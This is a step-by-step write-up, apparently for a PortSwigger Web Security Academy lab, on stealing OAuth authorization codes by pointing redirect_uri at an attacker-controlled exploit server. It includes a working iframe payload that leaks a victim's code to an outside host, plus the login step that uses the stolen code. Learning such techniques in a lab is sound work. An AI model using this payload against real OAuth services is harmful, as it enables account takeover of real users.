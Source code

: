 ## Background  
A misconfiguration by the OAuth provider makes it possible for an attacker to **steal authorization codes** associated with other users' accounts so that they can get access to the victim's data.  
攻击者可能会以受害者用户身份登录任何注册了此 OAuth 服务的客户端应用程序.  
To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.  
You can log in with your own social media account using the following credentials: wiener:peter.  

## Steps  

1. With Burp is on, click to log in with the credentials and complete the OAuth login process.  

2. Log out and then log in again. Notice this time you don't need to enter your credentials to log in.  

3. In burp, find the most recent authorisation request, which is GET /auth?client_id=[...]. Notice you wil be redirected to the redirect_uri with the authorisation code. Send this to Repeater.   
![image](https://user-images.githubusercontent.com/106157137/176818607-fa98217f-4129-4522-94e3-4ef8ab343f8f.png)  
 
4. Change the redirect_uri to different values and it will always return 302 response.  

5. Chanage the redirect_uri to the exploit server. Send the request and show the response in browser.  
![image](https://user-images.githubusercontent.com/106157137/176818830-8b61f0fc-f31b-4965-a41f-d9fe283dd436.png)  

6. In the exploit server's access log, we will see there is an entry containing an authorisation code. This means you can leak authorisation codes to an external domain.  
![image](https://user-images.githubusercontent.com/106157137/176819368-6d92b826-e7d4-499b-80fc-0466cc1a9843.png)  

7. Go back to the exploit server, create an iframe at /exploit:  
```<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>```   
In this case, our src will be:  
```<iframe src="https://oauth-0a6900110397ad11c0d9b1f7024200d3.web-security-academy.net/auth?client_id=vbbzkx18f4smhl8s8sdbk&redirect_uri=https://exploit-0a6e0004037aadfbc0bab16c012100c7.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>```  
最好的方式是直接copy GET /auth?client_id=[..]的全部url，然后将redirect_uri部分改成exploit url。  
![image](https://user-images.githubusercontent.com/106157137/177232914-ac041540-0b60-4e1f-a152-1f8d6940371f.png)

8. Store the exploit and click "view exploit". Check the exploit server's acess log. You will see another entry with a leaked code.  

9. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.  
![image](https://user-images.githubusercontent.com/106157137/177234734-2b002d8c-7602-41fc-ac28-6efcff0b3892.png)  

10. Log out and then use the stolen authorisation code to fill the url:  
`https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`  

11. You will be automatically logged in as the admin user.  
